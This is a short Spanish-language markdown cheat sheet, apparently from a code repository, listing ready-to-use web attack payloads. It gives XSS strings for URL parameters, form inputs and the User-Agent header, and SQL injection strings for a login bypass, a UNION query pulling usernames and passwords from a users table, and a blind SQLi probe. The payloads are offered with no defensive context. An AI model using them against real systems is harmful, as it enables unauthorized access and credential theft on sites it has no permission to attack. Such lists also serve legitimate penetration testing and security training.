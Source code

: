 # Ejemplos de uso de payloads XSS y SQLi

## XSS

- Inyectar en parámetro URL:  
  `http://vulnerable.com/page?search=<script>alert('XSS')</script>`

- En formulario HTML con input:  
  `<input type="text" name="username" value="<img src=x onerror=alert('XSS')>">`

- En header HTTP User-Agent:  
  `User-Agent: <svg/onload=alert('XSS')>`

---

## SQLi

- Autenticación bypass en login:  
  `' OR '1'='1`

- Union-based injection para obtener tablas:  
  `' UNION SELECT null, username, password FROM users --`

- Blind SQLi ejemplo:  
  `' AND SUBSTRING((SELECT TOP 1 name FROM sysobjects),1,1) = 'a' --`
